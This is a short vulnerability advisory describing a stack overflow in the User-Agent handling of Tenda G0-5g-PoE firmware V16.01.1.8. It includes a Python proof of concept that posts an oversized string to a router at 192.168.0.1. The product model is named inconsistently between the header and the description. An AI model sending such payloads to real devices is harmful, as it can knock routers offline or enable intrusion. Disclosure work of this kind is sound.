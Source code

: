 # Tenda G0-5g-PoE V2.0 access_dev_host_type
### Overview
vendor: Tenda

product: G0-5g-PoE V2.0

version: V16.01.1.8

type: Stack Overflow
### Vulnerability Description
Tenda G0-8g-PoEV3.0 V16.01.1.8 were discovered to contain a stack overflow in the access_dev_host_type function.
### Vulnerability details
In function access_dev_host_type line 15、19, it reads in a user-provided parameter `User-Agent`, and the variable `v5` is passed to the `memcpy` function without any length check, which may overflow the stack-based buffer `v6`. As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution.

![](images/G0-5g-poev20-1-1.png)

### POC
```python
import requests
ip = '192.168.0.1'
url = f'http://{ip}/'
payload = {
    "User-Agent": 'a' * 2000
}

res = requests.post(url=url, data=payload)
print(res.content)
```

